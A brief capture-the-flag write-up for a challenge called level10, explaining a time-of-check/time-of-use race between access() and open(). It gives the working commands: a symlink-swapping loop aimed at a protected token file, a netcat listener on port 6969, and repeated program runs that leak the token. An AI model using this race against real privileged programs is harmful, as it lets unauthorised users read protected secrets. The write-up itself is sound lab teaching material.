


the code opened in binary ninja :

we can see that the program use access to check if we have permessions, then connect to the server, and then open the file.
it mean that that we can give a file we can read to the program, and between the call to access and open change it to a symlink to the token file.
we will simply do that with a while loop :
`touch a && while true; do ln -sf token test; ln -sf a test; done`
then launch the server where the program is gonna send to file (we can see it's on port 6969 from the code) :
`nc -lk 6969` -l is to listen instead of send, and -k to continue receiving after first recv.
then try to lauch the program multiple time :
`./level10 test 0.0.0.0`
and in a few try the file will be swap and the program will open token instead of test, and the server will receive the token.
